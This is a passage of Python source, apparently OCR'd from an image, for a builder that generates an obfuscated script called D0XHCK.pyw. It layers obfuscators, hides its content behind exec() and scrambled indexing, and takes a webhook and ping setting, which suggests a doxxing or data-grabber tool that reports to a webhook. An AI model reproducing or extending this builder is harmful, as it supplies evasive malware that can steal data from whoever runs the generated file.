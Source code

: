         shuffle(_all_)

        _vars_content_ = ",".join(s[0] for s in _all_)
        _valors_content_ = ",".join(s[1] for s in _all_)
        _vars_ = _vars_content_ + "=" + _valors_content_
        _final_content_ = fr"""class D0XHCK():
 def __decode__(self:object,_execute:str)->exec:return(None,_n8_(_execute))[0]
 def __init__(self:object,_n1_:{choice(_types_)}=False,_n2_:{choice(_types_)}=0,*_n3_:{choice(_types_)},**_n4_:{choice(_types_)})->exec:
  {_vars_}
  return self.__decode__(_n4_[(_n7_[-1]+'_')[-1]+_n7_[18]+_n7_[15]+_n7_[0]+_n7_[17]+_n7_[10]+_n7_[11]+_n7_[4]])
D0XHCK(_n1_=False,_n2_=False,_sparkle='''{content}''')""".strip().replace("_n1_",n_1.removeprefix("self.")).replace("_n2_",n_2.removeprefix("self.")).replace("_n3_",n_3.removeprefix("self.")).replace("_n4_",n_4.removeprefix("self.")).replace("_n5_",n_5).replace("_n6_",n_6).replace("_n7_",n_7).replace("_n8_",n_8).replace("_n9_",n_9.removeprefix("self.")).replace("_n10_",n_10.removeprefix("self.")).replace("_n12_",n_12.removeprefix("self."))
        self.content = _final_content_
        return None

    def _ran_int(self, min: int = 3, max: int = 1000000) -> int:
        return randint(min, max+1)

    def _find(self, chars: str) -> str: return "+".join(f"_n7_[{list('abcdefghijklmnopqrstuvwxyz0123456789').index(c)}]" for c in chars)


class Build(Riot, Scarecrow, Kramer):
    def __init__(self, webhook: str, ping: bool) -> None:
        self.file, self.webhook, self.ping, self.content, self.key = "build/D0XHCK.pyw", webhook, ping, ..., ...
        self.build()
        return None

    def build(self) -> None:
        self.riot()
        self.scarecrow()
        self.kramer()
        self.folder()
        self.save()
        return None

    
    def folder(self) -> None:
        if isdir('build'):
            rmtree('build')
        mkdir('build')
        return None


    def save(self) -> None:
        with open(self.file, mode='w', encoding='utf-8') as f:
            f.write(self.content)
        return None

